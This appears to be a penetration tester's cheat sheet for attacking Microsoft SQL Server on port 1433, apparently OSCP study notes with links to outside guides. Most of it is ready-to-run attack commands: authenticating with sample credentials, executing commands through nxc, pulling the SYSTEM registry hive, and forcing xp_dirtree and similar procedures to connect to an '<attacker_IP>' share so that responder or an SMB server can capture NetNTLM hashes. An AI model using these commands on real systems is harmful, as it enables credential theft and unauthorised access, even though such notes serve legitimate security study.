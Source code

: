 Port: 1433
https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
https://gabb4r.gitbook.io/oscp-notes/service-enumeration/mssql-port-1433

```sh
# Force NTLM Authentication instead of Kerberos
impacket-mssqlclient Administrator:Lab123@192.168.197.18 -windows-auth

# If impacket doesn't command output
nxc mssql 10.10.133.148 -u sql_svc -p Dolphin1 -X whoami
nxc mssql 10.10.133.148 -u sql_svc -p Dolphin1 --get-file 'C:\\windows.old\\Windows\\System32\\SYSTEM' SYSTEM
```
# Steal NetNTLM hash / Relay attack
```sh
# On target machine (Any 1)
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'

# Capture hash (Any 1)
sudo responder -I tun0
sudo impacket-smbserver share ./ -smb2support
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
```

For Command Execution :-
https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/

For MSSQL Injection:-
#mssqli
